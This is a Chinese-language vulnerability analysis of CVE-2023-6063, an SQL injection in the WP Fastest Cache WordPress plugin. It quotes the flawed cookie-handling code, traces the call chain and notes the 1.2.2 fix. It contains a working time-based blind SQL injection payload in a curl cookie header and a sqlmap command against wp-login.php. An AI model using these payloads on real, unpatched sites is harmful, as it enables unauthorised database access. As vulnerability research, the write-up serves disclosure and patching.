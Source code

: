 

# CVE-2023-6063 分析|WordPress WP Fastest Cache 插件导致的 SQL 注入 - 先知社区

CVE-2023-6063 分析|WordPress WP Fastest Cache 插件导致的 SQL 注入

- - -

### 漏洞环境

● wordpress 版本无限制  
● WP Fastest Cache 插件 <1.2.2，这里使用 1.2.1 版本  
启用 WP Fastest Cache 插件，并启用“缓存系统”

[![](assets/1702866477-626aa05914ce7ca06b880c04272cb392.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213222532-7917171a-99c3-1.png)

漏洞点  
cache.php。调用在漏洞分析部分分析

[![](assets/1702866477-bf9f0123830af9522d28140f0533151a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213230000-49924762-99c8-1.png)

public function is\_user\_admin(){  
global $wpdb;

```plain
foreach ((array)$_COOKIE as $cookie_key => $cookie_value){
    if(preg_match("/wordpress_logged_in/i", $cookie_key)){
        $username = preg_replace("/^([^\|]+)\|.+/", "$1", $cookie_value);
        break;
    }
}

if(isset($username) && $username){          
    $res = $wpdb->get_var("SELECT `$wpdb->users`.`ID`, `$wpdb->users`.`user_login`, `$wpdb->usermeta`.`meta_key`, `$wpdb->usermeta`.`meta_value` 
                           FROM `$wpdb->users` 
                           INNER JOIN `$wpdb->usermeta` 
                           ON `$wpdb->users`.`user_login` = \"$username\" AND 
                           `$wpdb->usermeta`.`meta_key` LIKE \"%_user_level\" AND 
                           `$wpdb->usermeta`.`meta_value` = \"10\" AND 
                           `$wpdb->users`.`ID` = `$wpdb->usermeta`.user_id ;"
                        );

    return $res;
}

return false;
```

}

### 漏洞复现

记得改 cookie 中 wordpress\_logged\_in 的字符串，如 wordpress\_logged\_in\_5bd7a9c61cda6e66fc921a05bc80ee93  
漏洞点在 cookie 的 wordpress\_logged\_in\_5bd7a9c61cda6e66fc921a05bc80ee93(会变) 参数处  
curl [https://example.com](https://example.com/) -H "Cookie: wordpress\_logged\_in=1234%22%20AND%20(SELECT%202537%20FROM%20(SELECT(SLEEP(5)))Sazm)%20AND%20%22qzts%22=%22qzts"

sqlmap 证明：  
python sqlmap.py --dbms=mysql -u "[http://your-url/wp-login.php](http://your-url/wp-login.php)" --cookie='wordpress\_logged\_in\_732bf205f063fd120b84d8a0d44e2d5d=\*' --level=2 --current-user

[![](assets/1702866477-5b3a8a10a5cf3ea7ca52c3713a249e29.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213230021-564dd444-99c8-1.png)

### 漏洞分析

简单说就是在加载插件时，取 wordpress\_logged\_in 第一个 | 前的字符，然后插入到 SQL 语句中。  
而这样也是可以匹配的，即 payload

[![](assets/1702866477-1a5f049c04a16ed30321a8acf80e27c8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213230031-5c24f21c-99c8-1.png)

[![](assets/1702866477-f808862a038e492e26632509c9ed06e8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213230038-609225a4-99c8-1.png)

wordpress\_logged\_in\_5bd7a9c61cda6e66fc921a05bc80ee93 内容如下：  
wordpress|1702575454|gquEYSZ8lNbJktLUWLpElq4XybIhpPmOL3MmTMcqi4X|91c52c9d088ad036d8ccdc6ef645adfd906829527d27ea494140369cdbfbb1b9  
这一部分的功能就是取出 wordpress

[![](assets/1702866477-167e1be5ecf07b62e55459a854f59743.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213230052-68a16188-99c8-1.png)

然后没有过滤就进入了 SQL 语句中

[![](assets/1702866477-b515e46cd684b2bff1f61e86010caae4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213230102-6ea23f8a-99c8-1.png)

is\_user\_admin() 被 createCache() 调用

[![](assets/1702866477-91329269039bd1e5381ed861b67cf030.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213230128-7e7f2cba-99c8-1.png)

追踪 createCache()，被 cache() 调用

[![](assets/1702866477-848cc98c8476f8eea8f4cf7d381d8589.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213230142-86752a8c-99c8-1.png)

[![](assets/1702866477-72063633aa3f6595ca1b4afc42bcc6fb.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213230148-8a0f8bb0-99c8-1.png)

看 cache() 在何处被调用，发现被构造函数调用，即在 WpFastestCache 对象被创建时调用

[![](assets/1702866477-db6751b777f967bdb09696cdc7ef9ce9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213230155-8e1020f8-99c8-1.png)

[![](assets/1702866477-7d1304d0f30f504d0682018531b2cb3e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213230201-91a045cc-99c8-1.png)

这两处创建了对象，看谁包含了 wpFastestCache.php，继续跟，跟到 plugin.php，大概就是插件加载时调用的

[![](assets/1702866477-1d165b8b459d87a615552d88902c0f67.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213230220-9ceff04e-99c8-1.png)

[![](assets/1702866477-4e417726c80006baf42550f9124c09b0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213230225-a0258ecc-99c8-1.png)

[![](assets/1702866477-ed959346df00fcb1d1ab51caf92937cb.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213230230-a3498df6-99c8-1.png)

### 漏洞修复

WP Fastest Cache 插件 1.2.2，修复了此漏洞

[![](assets/1702866477-46c5ef5b632e29c23bb794e2d0bb6514.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213230239-a8b4fe2e-99c8-1.png)

对参数进行了过滤

[![](assets/1702866477-005f6282df003c301fd2d87b68b4dd12.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213230250-af523814-99c8-1.png)

[![](assets/1702866477-0311fcc54ddaa3fbabd059933afabbcf.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213230257-b3177f86-99c8-1.png)
